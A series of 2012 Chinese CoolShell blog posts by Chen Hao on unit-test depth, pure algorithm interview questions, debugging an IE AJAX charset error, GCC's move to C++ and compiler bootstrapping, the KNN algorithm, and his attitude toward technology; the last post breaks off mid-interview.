#####  [2012年09月03日 ](https://coolshell.cn/articles/8209.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [101 条评论](https://coolshell.cn/articles/8209.html#comments) 74,647 人阅读

这篇文章主要来源是StackOverflow上的一个回答——“[How deep are your unit tests?](http://stackoverflow.com/questions/153234/how-deep-are-your-unit-tests)”。一个有13.8K的分的人（[John Nolan](http://stackoverflow.com/users/1116/john-nolan)）问了个关于TDD的问题，这个问题并不新鲜，最亮的是这个问题的Best Answer，这个问题是——

“TDD需要花时间写测试，而我们一般多少会写一些代码，而第一个测试是测试我的构造函数有没有把这个类的变量都设置对了，这会不会太过分了？那么，我们写单元测试的这个单元的粒度到底是什么样的？并且，是不是我们的测试测试得多了点？”

#### 答案

StackOverflow上，这个问题的答案是这样的——

“I get paid for code that works, not for tests, so my philosophy is to test as little as possible to reach a given level of confidence (I suspect this level of confidence is high compared to industry standards, but that could just be hubris). If I don’t typically make a kind of mistake (like setting the wrong variables in a constructor), I don’t test for it. I do tend to make sense of test errors, so I’m extra careful when I have logic with complicated conditionals. When coding on a team, I modify my strategy to carefully test code that we, collectively, tend to get wrong.”

**老板为我的代码付报酬，而不是测试，所以，我对此的价值观是——测试越少越好，少到你对你的代码质量达到了某种自信**（我觉得这种的自信标准应该要高于业内的标准，当然，这种自信也可能是种自大）。如果我的编码生涯中不会犯这种典型的错误（如：在构造函数中设了个错误的值），那我就不会测试它。**我倾向于去对那些有意义的错误做测试，所以，我对一些比较复杂的条件逻辑会异常地小心**。当在一个团队中，我会非常小心的测试那些会让团队容易出错的代码。

这个回答对TDD似乎有一种否定，**最亮的是这个问题是由[Kent Beck](https://en.wikipedia.org/wiki/Kent_Beck)，Kent是XP和TDD的创造者，是敏捷开发实践方法的奠基人**。以致于还有人调侃到——


The world does not think that Kent Beck would say this! There are legions of developers dutifully pursuing 100% coverage because they think it is what Kent Beck would do! I have told many that you said, in your XP book, that you don’t always adhere to Test First religiously. But I’m surprised too.

只是要地球人都不会觉得Kent Beck会这么说啊！我们有大堆程序员在忠实的追求着100%的代码测试覆盖率，因为这些程序员觉得Kent Beck也会这么干！我告诉过很多人，你在你的XP的书里说过，你并不总是支持“宗教信仰式的Test First”，但是今天Kent这么说，我还是很惊讶！

后面还有一些人不同意Kent， 我一下子从这个事中想到了《[fight club](http://movie.douban.com/subject/1292000/)》里的那个精神分裂者创建了一个连自己都反对的地下组织。呵呵。

其实我是非常同意Kent的，怎么合适怎么搞，爱怎么测试就怎么测试，只要自己和团队有信心就可以了。没有必要就一定要写测试，一定要测试先行。

#### 其它答案

八卦完了，我们还是来认认真真地看看这个问题中其它的其它答案，因为这个问题的也是国人爱问题的问题。

**第二个答案：值得借鉴**

- 开发过程中，单元测试应该来测试那些可能会出错的地方，或是那些边界情况。
- 维护过程中，单元测试应该跟着我们的bug report来走，每一个bug都应该有个UT。于是程序员就会对自己的代码变更有两个自信，一是bug 被 fixed，二是相同的bug不会再次出现。

**第三个答案：给敏捷咨师看的答案**

这个答案在说，我们只注意到了TDD中的T，而忽略了第一个D，就是Driven…… bla bla bla… 又这扯这些空洞的东西了，国内的各种不学无术的敏捷咨询师最好这一口了。

**第四个答案：致那些什么都要测试的人**

如果我们需要测试一个像 `int square(int x)` 这样的开根函数，我们需要40亿个测试（每个数都要测试）。

事实上这种情况可能还更糟糕，如果有这样一个方法 `void setX(int newX)` 不会更改其它的成员变量，如：obj.z, Obj.y，那么，你是不是还要去测试一下别的变量没有被改变？

我们只可能测试那些有意义的，确实要测试的案例。

#### 我的观点

我在《[TDD并没有看上去的那么美](https://coolshell.cn/articles/3649.html)》一文中说过我的观点了，我就不再多说了。我还是把下面这些观点列出来，供大家思考和讨论：

1）**我国的教育对我们最大的洗脑不是掩盖事实，而让我们习惯于标准答案，习惯于教条，从而不会思考！敏捷开发中的若干东西似乎都成了软件开发中对某种标准答案的教条，实在是悲哀！**

2）**软件开发是一种脑力劳动，是一种知识密集型的工作，就像艺术作品一样，创作过程和成品是没有标准答案的。**

3）**软件的质量不是测试出来的，而是设计和维护出来的。就像工匠们在一点一点地雕琢他们的作品一样。**

UT的粒度是多少，这个不重要，重要的是你会不会自己思考你的软件应该怎么做，怎么测试。

（全文完）

# 为什么我反对纯算法面试题

#####  [2012年08月22日 ](https://coolshell.cn/articles/8138.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [181 条评论](https://coolshell.cn/articles/8138.html#comments) 138,043 人阅读

算法面试可能是微软搞出来的面试方法，现在很多公司都在效仿，而且我们的程序员也乐于解算法题，我个人以为，这是应试教育的毒瘤！我在《[再谈“我是怎么招程序员”](https://coolshell.cn/articles/4506.html)》中比较保守地说过，“**问难的算法题并没有错，错的很多面试官只是在肤浅甚至错误地理解着面试算法题的目的**。”，今天，我想加强一下这个观点——**我反对纯算法题面试**！（注意，我说的是纯算法题）

[](https://en.wikipedia.org/wiki/Sheldon_Cooper)图片源Wikipedia（点击图片查看词条）

我再次引用我以前的一个观点——

能解算法题并不意味着这个人就有能力就能在工作中解决问题，你可以想想，小学奥数题可能比这些题更难，但并不意味着那些奥数能手就能解决实际问题。

好了，让我们来看一个示例（这个示例是昨天在[微博上的一个讨论](http://weibo.com/1401880315/yy9pvgNi2)），这个题是——“**找出无序数组中第2大的数**”，几乎所有的人都用了O(n)的算法，我相信对于我们这些应试教育出来的人来说，不用排序用O(n)算法是很正常的事，连我都不由自主地认为O(n)算法是这个题的标准答案。**我们太习惯于标准答案了，这是我国教育最悲哀的地方**。（广义的洗脑就是让你的意识依赖于某个标准答案，然后通过给你标准答案让你不会思考而控制你）

目录


[功能性需求分析](https://coolshell.cn/articles/8138.html#功能性需求分析)[非功能性需求分析](https://coolshell.cn/articles/8138.html#非功能性需求分析)[工程式的解法](https://coolshell.cn/articles/8138.html#工程式的解法)[争论](https://coolshell.cn/articles/8138.html#争论)[小结](https://coolshell.cn/articles/8138.html#小结)

#### 功能性需求分析

试想，如果我们在实际工作中得到这样一个题 我们会怎么做？我一定会分析这个需求，因为我害怕需求未来会改变，今天你叫我找一个第2大的数，明天你找我找一个第4大的数，后天叫我找一个第100大的数，我不搞死了。需求变化是很正常的事。分析完这个需求后，我会很自然地去写找第K大数的算法——难度一下子就增大了。


很多人会以为找第K大的需求是一种“过早扩展”的思路，不是这样的，我相信我们在实际编码中写过太多这样的程序了，你一定不会设计出这样的函数接口—— Find2ndMaxNum(int* array, int len)，就好像你不会设计出 DestroyBaghdad(); 这样的接口，而是设计一个DestoryCity( City& ); 的接口，而把Baghdad当成参数传进去！所以，你应该是声明一个叫FindKthMaxNum(int* array, int len, int kth)，把2当成参数传进去。**这是最基本的编程方法，用数学的话来说，叫代数**！最简单的需求分析方法就是把需求翻译成函数名，然后看看是这个接口不是很二？！

（注：不要纠结于FindMaxNum()或FindMinNum()，因为这两个函数名的业务意义很清楚了，不像Find2ndMaxNum()那么二）

#### 非功能性需求分析

性能之类的东西从来都是非功能性需求，对于算法题，我们太喜欢研究算法题的空间和时间复杂度了。我们希望做到空间和时间双丰收，这是算法学术界的风格。所以，**习惯于标准答案的我们已经失去思考的能力，只会机械地思考算法之内的性能，而忽略了算法之外的性能**。

如果题目是——“从无序数组中找到第K个最大的数”，那么，我们一定会去思考用O(n)的线性算法找出第K个数。事实上，也有线性算法——STL中可以用nth_element求得类似的第n大的数，其利用快速排序的思想，从数组S中随机找出一个元素X，把数组分为两部分Sa和Sb。Sa中的元素大于等于X，Sb中元素小于X。这时有两种情况：1）Sa中元素的个数小于k，则Sb中的第k-|Sa|个元素即为第k大数；2） Sa中元素的个数大于等于k，则返回Sa中的第k大数。时间复杂度近似为O(n)。

搞学术的nuts们到了这一步一定会欢呼胜利！但是他们哪里能想得到性能的需求分析也是来源自业务的！

**我们一说性能，基本上是个人都会问，请求量有多大？如果我们的FindKthMaxNum()的请求量是m次，那么你的这个每次都要O(n)复杂度的算法得到的效果就是O(n\*m)，这一点，是书呆子式的学院派人永远想不到的。**因为应试教育让我们不会从实际思考了。

#### 工程式的解法

根据上面的需求分析，有软件工程经验的人的解法通常会这样：

1）把数组排序，从大到小。

2）于是你要第k大的数，就直接访问 array[k]。

排序只需要一次，O(n*log(n))，然后，接下来的m次对FindKthMaxNum()的调用全是O(1)的，整体复杂度反而成了线性的。

其实，上述的还不是工程式的最好的解法，因为，在业务中，那数组中的数据可能会是会变化的，所以，如果是用数组排序的话，有数据的改动会让我重新排序，这个太耗性能了，如果实际情况中会有很多的插入或删除操作，那么可以考虑使用B+树。

工程式的解法有以下特点：

1）很方便扩展，因为数据排好序了，你还可以方便地支持各种需求，如从第k1大到k2大的数据（那些学院派写出来的代码在拿到这个需求时又开始挠头苦想了）

2）规整的数据会简化整体的算法复杂度，从而整体性能会更好。（公欲善其事，必先利其器）

3）代码变得清晰，易懂，易维护！（学院派的和STL一样的近似O(n)复杂度的算法没人敢动）

#### 争论

你可能会和我有以下争论，

- **如果程序员做这个算法题用排序的方式，他一定不会像你想那么多**。是的，你说得对。但是我想说，很多时候，我们直觉地思考，恰恰是正确的路。因为“排序”这个思路符合人类大脑处理问题的方式，而使用学院派的方式是反大脑直觉的。反大脑直觉的，通常意味着晦涩难懂，维护成本上升。

- **就是一道面试题，我就是想测试一下你的算法技能，这也扯太多了**。没问题，不过，我们要清楚我们是在招什么人？是一个只会写算法的人，还是一个会做软件的人？这个只有你自己最清楚。

- **这个算法题太容易诱导到学院派的思路了**。是的这道“找出第K大的数”，其实可以变换为更为业务一点的题目——“**我要和别的商户竞价，我想排在所有竞争对手报价的第K名，请写一个程序，我输入K，和一个商品名，系统告诉我应该订多少价？**（商家的所有商品的报价在一数组中）”——业务分析，整体性能，算法，数据结构，增加需求让应聘者重构，这一个问题就全考了。

- **你是不是在说算法不重要，不用学？**千万别这样理解我，搞得好像如果面试不面，我就可以不学。**算法很重要，算法题能锻炼我们的思维，而且也有很多实际用处**。我这篇文章不是让大家不要去学算法，这是完全错误的，我是让大家带着业务问题去使用算法。问你业务问题，一样会问到算法题上来。

#### 小结

看过这上面的分析，我相信你明白我为什么反对纯算法面试题了。原因就是**纯算法的面试题根本不能反应一个程序的综合素质**！

那么，在面试中，我们应该要考量程序员的那些综合素质呢？我以为有下面这些东西：

1. 会不会做需求分析？怎么理解问题的？
2. 解决问题的思路是什么？想法如何？
3. 会不会对基础的算法和数据结构灵活运用？

另外，我们知道，对于软件开发来说，在工程上，难是的下面是这些挑战：

- 软件的维护成本远远大于软件的开发成本。
- 软件的质量变得越来越重要，所以，测试工作也变得越来越重要。
- 软件的需求总是在变的，软件的需求总是一点一点往上加的。
- 程序中大量的代码都是在处理一些错误的或是不正常的流程。

所以，对于编程能力上，我们应该主要考量程序员的如下能力：

1. 设计是否满足对需求的理解，并可以应对可能出现的需求变化。
2. 程序是否易读，易维护？
3. 重构代码的能力如何？
4. 会不会测试自己写好的程序？

所以，这段时间，我越来越倾向于问应聘者一些有业务意义的题，而且应增加或更改需求来看程序员的重构代码的能力，写完程序后，让应聘者设计测试案例。

比如：解析加减乘除表达式，字符串转数字，洗牌程序，口令生成器，通过ip地址找地点，英汉词典双向检索……

**总之，我反对纯算法面试题！**

（全文完）

# 一次AJAX查错的经历

#####  [2012年08月27日 ](https://coolshell.cn/articles/8170.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [93 条评论](https://coolshell.cn/articles/8170.html#comments) 58,679 人阅读

先说故事，再说想法吧。

我有一朋友做网站，用jQuery的Ajax方法从后端载入一段HTML代码然后动态插入到网页的Div元件中。这个东西太普遍了。jQuery强大的load方法可以完成这个事情。朋友的代码是这么写的：

[javascript]var tab = jQuery("#dynamic_tab");
var url = "/list_ajax/";
tab.load(url);[/javascript]

简单到不能再简单了。在Chrome，Firefox，Safari下运行一点问题也没有，只有IE不行，不管是IE7，IE8，还是IE9。问题的症壮是，使用IE访问那个Ajax的链接，没有问题，但是在jQuery的Ajax方法返回了“undefined”的respons对象。没有任何报错！

怎么搞也搞不定，只好Google了一下——“[jQuery load IE](https://www.google.com/#hl=zh-CN&newwindow=1&site=&source=hp&q=jQuery+load+IE&btnK=Google+搜索&oq=jQuery+load+IE)”，一看，很多人都在问这个问题。于是开始了[散弹枪编程方式](https://coolshell.cn/articles/2058.html)。

排在第一的就是StackOverflow被浏览了33K次的这个问题：[jQuery’s .load() not working in IE – but fine in Firefox, Chrome and Safari](http://stackoverflow.com/questions/1061525/jquerys-load-not-working-in-ie-but-fine-in-firefox-chrome-and-safari)，答案没有被打勾（不靠谱），StackOverflow还有很多人问相似的问题，不过都没有答案。不管三七二十一，先试了一下，散弹枪嘛。试了半天都没有用。

然后上Google查，又看到有人说的IE缓存的问题，什么，要把cache设置成false，或是用下面的方法来解决：

[javascript]var tab = jQuery("#dynamic_tab");
var fuckie = Math.random();
var url = "/list_ajax/"+"?fuckie="+fuckie;
tab.load(url);[/javascript]

反正还是一样，统统不Work，几乎所有的都试了，都不Work。搞了一天的朋友恼怒道：“Microsoft应该快点倒闭吧，产品太烂了”。IE的确是太烂了。


于是我用IE9的网页调试器可以看到点了Ajax的链接后，**IE对网站有http的Ajax请求，也可以看到请求返回了，但是就是不显示在我的页面上——jQuery的Ajax的responseText为undefined!**

对于我这个老家伙，对jQuery也不熟，我只得开始调试jQuery的代码，想看看里面干了什么，报了什么错？调了一个小时，基本上把jQuery的Ajax的封装看懂了七七八八了，但是还是没找到为什么有问题。

于是，我只得架起原生态的Ajax，看看IE的那个Ajax的ActiveX的对象干了什么事？写了下面的代码（当年写Ajax就是这么写的，所以也不费劲，况且网上还有例程可以抄）：

[javascript]
function InitAjax()
{
var ajax=false;
try {
ajax = new ActiveXObject("Msxml2.XMLHTTP");
} catch (e) {
try {
ajax = new ActiveXObject("Microsoft.XMLHTTP");
} catch (E) {
ajax = false;
}
}
if (!ajax && typeof XMLHttpRequest!=’undefined’) {
ajax = new XMLHttpRequest();
}
return ajax;
}

var ajax = InitAjax();
ajax.open("GET", url, true);
ajax.onreadystatechange = function() {
if (ajax.readyState == 4 && ajax.status == 200) {
var show = document.getElementById("HaoChenDIV").value;
show.innerHTML = ajax.responseText;
}
}
ajax.send(null);
[/javascript]

一运行，还是不行，没见IE报什么错，不过，可以确定这不是jQuery的问题了，估计还是我们自己程序的问题。不过此时的程序太好调试了，调试中，在IE9下调式发现原生的IE的Ajax对象在onreadystatechange函数里，其responseText是下面这个样子：


什么是“**系统错误: -1072896658**”？上[google一查](https://www.google.com/#hl=zh-CN&newwindow=1&q=ajax+"系统错误:+-1072896658"&oq=ajax+"系统错误:+-1072896658")，一堆页面，基本上是说乱码了，也就是ajax的后端程序返回的网页编码不认识吧。需要在返回的http header里加上 charset=utf-8。

于是，修改后端的Ajax的程序，明确指定了返回的HTTP Header中的charset，于是IE下就工作正常了，再切回jQuery的load代码，一切正常了（后端的程序本来是utf-8的编码格式，但是不骨明确在HTTP Header中指定，但是只有IE不会自动检测）。

这个问题的原因就是因为我们没有按照规范去写网页。所以，举一反三，HTML的规范还有哪些，太多了，记也记不住。但也许你会知道**有一个叫 [http://validator.w3.org](http://validator.w3.org/) 的网站可以帮你校验你网页中的很多不规范的东西**。这个工具会报很多很多错，很多都有点吹毛求疵，不过，可以让你看看（注：今天的coolshell装了很多插件，也被我调过一些东西，所以出错很多，我还记得以前没有插件没有我定制化的样式的时候，Wordpress一个错都不报）。

#### 后记

我把这个问题和过程分享出来，主要有这么几个目的，并抛出几个问题，大家可以思考一下：

1）这个问题网上有很多人都在报，但是基本上找不到答案（包括StackOverflow），所以，我分享出来，填补一下空白。

2）我相信我们的程序员天天都在经历这样的事，我不知道大家在遇到这样的事情会怎么做？也许大多数人都在网上查各种解决方案，然后一个一个的试，直到试对了——散弹枪式的编程，呵呵。当然，大多数答案都是可能找到的。但**当我们找到答案了后，我们还会深入去了解这个问题的具体原因并举一反三地去思考一其周边的东西吗**？

3）另外，在今天这样N多框架，N多lib，N多开源的年代下，**不知道大家有没有失去了从零开始自己写代码的能力？**比如上面的这个问题，不知道有多少人还会自己写原生态的Ajax？不过，我还是建议大家能在使用各种框架的时候，明白那些最基础的知识，求甚解，知其然知其所以然，真的很重要。

我是从那个“吃糠的年代”过来的程序员，那时的程序员什么都要自己干，很辛苦，今天我和很多人说我以前的那些经历，会被笑话，但是我从这些什么都自己的干的年代过的经历，让我受益很多。我把我的想法分享给大家，希望对大家有用。

(全文完)

# GCC 用 C++ 来编译

#####  [2012年08月20日 ](https://coolshell.cn/articles/8115.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [41 条评论](https://coolshell.cn/articles/8115.html#comments) 34,566 人阅读

GCC在2012年8月15日的时候，merge了一个patch – [Merge from cxx-conversion branch](http://gcc.gnu.org/git/?p=gcc.git;a=commitdiff;h=2b15d2ba7eb3a25dfb15a7300f4ee7a141ee8539)，这意味着，以后在GCC的编译只能用C++的编译器了，也意味着，gcc的实现代码开始转向C++了。

你可能会有两个问题，

- 一个问题是为什么GCC要转成C++的实现？

- 没有C++的编译器，我怎么编译C++编译器的代码？这不是“鸡生蛋还是蛋生鸡”的问题么？

那，我们来看一看吧。

#### 为什么要用C++

在[GNU的C++ Conversion文档](http://gcc.gnu.org/wiki/cxx-conversion)中，我们可以在Background中看到这样的描述：

> Whether we use C or C++, we need to try to ensure that interfaces are easy to understand, that the code is reasonably modular, that the internal documentation corresponds to the code, that it is possible for new developers to write new passes and to fix bugs. Those are the important issues for us to consider. The C++ features which are not present in C — features which are well documented in many books and many web sites — are not an important issue.

这句话的意思可以理解为，今天GCC在用C语言的实现已经有点hold不住了，因为，开发人员觉得，不管我们用C或C++，都需要努力确保接口是容易理解的，这样我们的代码是想当理性地被模块化的，这样内部文档和代码一致，这样可以更好地组织代码，这样有利于新人了fix-bug。而C++正好可以让他们更好的完成这些东西。

GNU还给出了下面这些理由：


- C++ 是一种标准化的，大众的，流行的语言。
- C++ 是C90的超集。
- C++作为C的扩展和C在性能上一样好。
- C++ 在一些有意义的案例上支持更干净的代码。
- C++ 让你更容易去写一个更干净的接口。
- C++ 永远不会让你的代码变得更丑。
- C++ 不是万灵药，他是C的一个改进。

然后，给了一个PDF http://airs.com/ian/cxx-slides.pdf，这是Google 的[ Ian Lance Taylor](http://airs.com/ian/)的的一个PPT，这个文档可以让大家更好地理解我在《[C++的坑多吗？](https://coolshell.cn/articles/7992.html)》一文中那些观点。**我都不知道我要说多少遍C++的封装，继承和多态比C语言在代码组织上要好得多得多**。大家还是自己看一下代码吧：

**数据结构的操作 ——** 你写的一定不会有STL好

**[](https://coolshell.cn/wp-content/uploads/2012/08/VEC-vs-vector.jpg)**

**结构套结构还是继承？**

[](https://coolshell.cn/wp-content/uploads/2012/08/tree-structure.jpg)

**函数指针还是多态？**

[](https://coolshell.cn/wp-content/uploads/2012/08/TARGET-vs-Target.jpg)

**垃圾回收 还是 智能指针？**

[](https://coolshell.cn/wp-content/uploads/2012/08/GC-vs-Smart-Pointer.jpg)

**Why not C++?** 

- **C++慢吗**？某些特性会慢，但是有时C++更快，你可以只用你喜欢的C++特性。
- **C++复杂吗？**它只不过是另一种编程语言，他可以让你对程序员维护更简单。
- **FSF不喜欢C++！**因为FSF（自由软件基金会）这些人不写代码。

[](https://coolshell.cn/wp-content/uploads/2012/08/Why-not-C++.jpg)

#### Bootstrapping

最后，我想来介绍一下[Bootstrapping](https://en.wikipedia.org/wiki/Bootstrapping_(compilers))。 所谓Bootstrapping，就是用自己这个语言写编译器来编译自己，也就是说如果你要编译gcc，你需要用一个c的编译器来编译之，这个就是bootstrapped process，自举过程。包括 [BASIC](https://en.wikipedia.org/wiki/BASIC), [Algol](https://en.wikipedia.org/wiki/Algol), [C](https://en.wikipedia.org/wiki/C_(programming_language)), [C++](https://en.wikipedia.org/wiki/C%2B%2B), [Pascal](https://en.wikipedia.org/wiki/Pascal_programming_language), [PL/I](https://en.wikipedia.org/wiki/PL/I), [Factor](https://en.wikipedia.org/wiki/Factor_programming_language), [Haskell](https://en.wikipedia.org/wiki/Haskell_(programming_language)), [Modula-2](https://en.wikipedia.org/wiki/Modula-2), [Oberon](https://en.wikipedia.org/wiki/Oberon_programming_language), [OCaml](https://en.wikipedia.org/wiki/OCaml),[Common Lisp](https://en.wikipedia.org/wiki/Common_Lisp), [Scheme](https://en.wikipedia.org/wiki/Scheme_(programming_language)), [Java](https://en.wikipedia.org/wiki/Java_(programming_language)), [Python](https://en.wikipedia.org/wiki/Python_(programming_language)), [Scala](https://en.wikipedia.org/wiki/Scala_(programming_language)) 等语言都这么干。

这样干的好处主要是，自己可以测试自己，编译器的改善和语言的改善相辅相成。

但是，这是一个“鸡生蛋，还是蛋生鸡”的问题，如果你需要用X语言来写一个X语言编译器的语言，你可以这样干：

- 用Y语言来实现X的语言解释器或编译器。 [Niklaus Wirth](https://en.wikipedia.org/wiki/Niklaus_Wirth) 说 [Pascal](https://en.wikipedia.org/wiki/Pascal_programming_language) 的第一个编译器是由 [Fortran](https://en.wikipedia.org/wiki/Fortran) 写的。
- 已存在用Y语言写的X语言的编译器或解释器。[Scheme](https://en.wikipedia.org/wiki/Scheme_(programming_language)) 就是这么干的。
- 已经有一个编译器来编译一个早期版本的X语言，然后就可以用早期版本的X语言来编译新版本的X语言了。[Java](https://en.wikipedia.org/wiki/Java_(programming_language))，[Haskell](https://en.wikipedia.org/wiki/Haskell_(programming_language)), 和最初版的 [Free Pascal](https://en.wikipedia.org/wiki/Free_Pascal) 就是这么干的。
- X在某平台上的编译器已经存在，可以使用交叉编译技术来编译另一个平台上X语言，C语言就是这么干的。
- 用X语言写一个编译器，然后手动编译之（不需要特别优化），（注：手动编译估计就是手动翻译成机器汇编代码），然后再运行这个手动编译的编译器来编译这个编译器的源码，并优化之。[Donald Knuth](https://en.wikipedia.org/wiki/Donald_Knuth) 在他的 [WEB](https://en.wikipedia.org/wiki/WEB) [literate programming](https://en.wikipedia.org/wiki/Literate_programming) 系统里用到了这个方法。

（全文完）

# K NEAREST NEIGHBOR 算法

#####  [2012年08月17日 ](https://coolshell.cn/articles/8052.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [51 条评论](https://coolshell.cn/articles/8052.html#comments) 65,348 人阅读

K Nearest Neighbor算法又叫KNN算法，这个算法是机器学习里面一个比较经典的算法， 总体来说KNN算法是相对比较容易理解的算法。其中的K表示最接近自己的K个数据样本。KNN算法和[K-Means算法](https://coolshell.cn/articles/7779.html)不同的是，K-Means算法用来聚类，用来判断哪些东西是一个比较相近的类型，而KNN算法是用来做归类的，也就是说，有一个样本空间里的样本分成很几个类型，然后，给定一个待分类的数据，通过计算接近自己最近的K个样本来判断这个待分类数据属于哪个分类。**你可以简单的理解为由那离自己最近的K个点来投票决定待分类数据归为哪一类**。

Wikipedia上的[KNN词条](https://en.wikipedia.org/wiki/K-nearest_neighbor_algorithm)中有一个比较经典的图如下：


从上图中我们可以看到，图中的有两个类型的样本数据，一类是蓝色的正方形，另一类是红色的三角形。而那个绿色的圆形是我们待分类的数据。

- 如果K=3，那么离绿色点最近的有2个红色三角形和1个蓝色的正方形，这3个点投票，于是绿色的这个待分类点属于红色的三角形。

- 如果K=5，那么离绿色点最近的有2个红色三角形和3个蓝色的正方形，这5个点投票，于是绿色的这个待分类点属于蓝色的正方形。

我们可以看到，机器学习的本质——**是基于一种数据统计的方法**！那么，这个算法有什么用呢？我们来看几个示例。


目录


[产品质量判断](https://coolshell.cn/articles/8052.html#产品质量判断)[预测](https://coolshell.cn/articles/8052.html#预测)[插值，平滑曲线](https://coolshell.cn/articles/8052.html#插值，平滑曲线)[后记](https://coolshell.cn/articles/8052.html#后记)

#### 产品质量判断

假设我们需要判断纸巾的品质好坏，纸巾的品质好坏可以抽像出两个向量，一个是“酸腐蚀的时间”，一个是“能承受的压强”。如果我们的样本空间如下：（所谓样本空间，又叫Training Data，也就是用于机器学习的数据）

| **向量X1****耐酸时间（秒）** | **向量X2****圧强(公斤/平方米)** | **品质Y** |
| ---------------------------- | ------------------------------- | --------- |
| 7                            | 7                               | 坏        |
| 7                            | 4                               | 坏        |
| 3                            | 4                               | 好        |
| 1                            | 4                               | 好        |

那么，如果 X1 = 3 和 X2 = 7， 这个毛巾的品质是什么呢？这里就可以用到KNN算法来判断了。

假设K=3，K应该是一个奇数，这样可以保证不会有平票，下面是我们计算（3，7）到所有点的距离。（关于那些距离公式，可以参看[K-Means算法中的距离公式](https://coolshell.cn/articles/7779.html)）

| **向量X1****耐酸时间（秒）** | **向量X2****圧强(公斤/平方米)** | **计算到 (3, 7)的距离**                                   | **向量Y** |
| ---------------------------- | ------------------------------- | --------------------------------------------------------- | --------- |
| 7                            | 7                               | **** | 坏        |
| 7                            | 4                               | **** | N/A       |
| 3                            | 4                               | **** | 好        |
| 1                            | 4                               | **** | 好        |

所以，最后的投票，好的有2票，坏的有1票，最终需要测试的（3，7）是合格品。（当然，你还可以使用权重——可以把距离值做为权重，越近的权重越大，这样可能会更准确一些）

**注：[示例来自这里](http://people.revoledu.com/kardi/tutorial/KNN/KNN_Numerical-example.html)，[K-NearestNeighbors Excel表格下载](https://coolshell.cn/wp-content/uploads/2012/08/K-NearestNeighbors.xls)**

#### 预测

假设我们有下面一组数据，假设X是流逝的秒数，Y值是随时间变换的一个数值（你可以想像是股票值）


那么，当时间是6.5秒的时候，Y值会是多少呢？我们可以用KNN算法来预测之。

这里，让我们假设K=2，于是我们可以计算所有X点到6.5的距离，如：X=5.1，距离是 | 6.5 – 5.1 | = 1.4， X = 1.2 那么距离是 | 6.5 – 1.2 | = 5.3 。于是我们得到下面的表：


注意，上图中因为K=2，所以得到X=4 和 X =5.1的点最近，得到的Y的值分别为27和8，在这种情况下，我们可以简单的使用平均值来计算：

于是，最终预测的数值为：17.5


**注：[示例来自这里](http://people.revoledu.com/kardi/tutorial/KNN/KNN_TimeSeries.htm)，[KNN_TimeSeries Excel表格下载](https://coolshell.cn/wp-content/uploads/2012/08/KNN_TimeSeries.xls)**

#### 插值，平滑曲线

KNN算法还可以用来做平滑曲线用，这个用法比较另类。假如我们的样本数据如下（和上面的一样）：


要平滑这些点，我们需要在其中插入一些值，比如我们用步长为0.1开始插值，从0到6开始，计算到所有X点的距离（绝对值），下图给出了从0到0.5 的数据：


下图给出了从2.5到3.5插入的11个值，然后计算他们到各个X的距离，假值K=4，那么我们就用最近4个X的Y值，然后求平均值，得到下面的表：


于是可以从0.0, 0.1, 0.2, 0.3 …. 1.1, 1.2, 1.3…..3.1, 3.2…..5.8, 5.9, 6.0 一个大表，跟据K的取值不同，得到下面的图：

|  |  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |  |
|  |                                                              |

**注：[示例来自这里](http://people.revoledu.com/kardi/tutorial/KNN/KNN_TimeSeries.htm)，[KNN_Smoothing Excel表格下载](https://coolshell.cn/wp-content/uploads/2012/08/KNN_Smoothing.xls)**

#### 后记

最后，我想再多说两个事，

1） 一个是机器学习，算法基本上都比较简单，最难的是数学建模，把那些业务中的特性抽象成向量的过程，另一个是选取适合模型的数据样本。这两个事都不是简单的事。算法反而是比较简单的事。

2）对于KNN算法中找到离自己最近的K个点，是一个很经典的算法面试题，需要使用到的数据结构是“[最大堆——Max Heap](https://en.wikipedia.org/wiki/Binary_heap)”，一种二叉树。你可以看看相关的算法。

（全文完）

# 对技术的态度

#####  [2012年08月16日 ](https://coolshell.cn/articles/8088.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [132 条评论](https://coolshell.cn/articles/8088.html#comments) 109,119 人阅读

最近人品爆发，图灵社区，InfoQ，51CTO相继对我做了采访，前两天我把[InfoQ对我的采访张贴了出来](https://coolshell.cn/articles/8031.html)，今天，图灵社区和51CTO对我的采访发布了（[图灵的访谈](http://www.ituring.com.cn/article/9174) ，[51CTO的访谈](http://developer.51cto.com/art/201208/353256.htm)），我是一个有技术焦虑症的人，我的经历比较特殊，对大家来说可能也没有什么意思，这两个采都有一些重叠的部分，不过有些观点我想再加强一些，并放在这里和大家一起分享一下。

目录


[对于日新月异的新技术，你是什么态度？](https://coolshell.cn/articles/8088.html#对于日新月异的新技术，你是什么态度？)[可是在应用环境中，对新技术的需求是很高的，你觉得在教育领域计算机科学的侧重应该是什么样的？](https://coolshell.cn/articles/8088.html#可是在应用环境中，对新技术的需求是很高的，你觉得在教育领域计算机科学的侧重应该是什么样的？)[那么，现在做一个软件开发者是否更加困难了？](https://coolshell.cn/articles/8088.html#那么，现在做一个软件开发者是否更加困难了？)[你如何在进度压力下，享受技术带来的快乐？](https://coolshell.cn/articles/8088.html#你如何在进度压力下，享受技术带来的快乐？)

#### 对于日新月异的新技术，你是什么态度？

遇到新技术我会去了解，但不会把很大的精力放在这些技术（如：NoSQL，Node.js，等）。这些技术尚不成熟，只需要跟得住就可以了。技术十年以上可能是一个门槛。有人说技术更新换代很快，我一点儿都不觉得是这样想。虽然有不成熟的技术不断地涌出，但是成熟的技术，比如Unix，40多年，C，40多年，C++，30多年，TCP/IP，20多年，Java也有将近20年了……，所以，如果你着眼成熟的技术，其实并不多。

我的观点是——**要了解技术就一定需要了解整个计算机的技术历史发展和进化路线。**（这个观点，我在《[程序员练级攻略](https://coolshell.cn/articles/4990.html)》和《[C++的坑多吗？](https://coolshell.cn/articles/7992.html)》中提到过多次了。）因为，**你要朝着球运动的轨迹去，而不是朝着球的位置去，要知道球的运动轨迹，你就需要知道它历史上是怎么跑的**。

